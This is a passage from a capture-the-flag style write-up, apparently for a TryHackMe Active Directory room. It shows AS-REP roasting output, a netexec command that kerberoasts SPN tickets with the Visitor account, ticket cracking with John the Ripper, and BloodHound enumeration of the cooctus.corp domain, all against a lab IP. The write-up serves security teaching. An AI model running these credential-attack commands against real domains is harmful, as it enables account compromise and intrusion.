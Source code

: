 ```bash
[-] User Ben does not have UF_DONT_REQUIRE_PREAUTH set
[-] User David does not have UF_DONT_REQUIRE_PREAUTH set
[-] User password-reset does not have UF_DONT_REQUIRE_PREAUTH set
```
{: .nolineno}
{: .nolineno}


Now lets look into <mark style="background: #ABF7F7A6;">kerberostable SPN tickets</mark> with Visitor user credentials with <mark style="background: #FF5582A6;">netexec</mark> Tool this time like this ⏬

```bash
netexec ldap 10.10.182.217 -u Visitor -p '<PASSWORD>' --kerberoasting spn.txt
```
{: .nolineno}
{: .nolineno}

![Image](Pasted%20image%2020240404134635.png)
_netexec kerberostable SPN ticket alternative of `GetUsersSPN.py` from impackets_

Lets crack this SPN ticket for `password-reset` account with <mark style="background: #FF5582A6;">John-The-Ripper</mark> Tool ⏬

![Image](Pasted%20image%2020240404134932.png)
_John-the-ripper Tool_

Lets start bloodhound now with <span style="color:#fd77f8">password-reset</span> Users credentials like this ⏬

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/crocc_crew]
└─$ bloodhound-python -u 'password-reset' -p '<PASSWORD>' -ns 10.10.182.217 -d cooctus.corp -c all
INFO: Found AD domain: cooctus.corp
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.cooctus.corp
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to GC LDAP server: dc.cooctus.corp
INFO: Connecting to LDAP server: dc.cooctus.corp
INFO: Found 17 users
INFO: Found 63 groups
INFO: Found 2 gpos
INFO: Found 11 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.COOCTUS.CORP
INFO: Done in 00M 49S
```
{: .nolineno}
{: .nolineno}
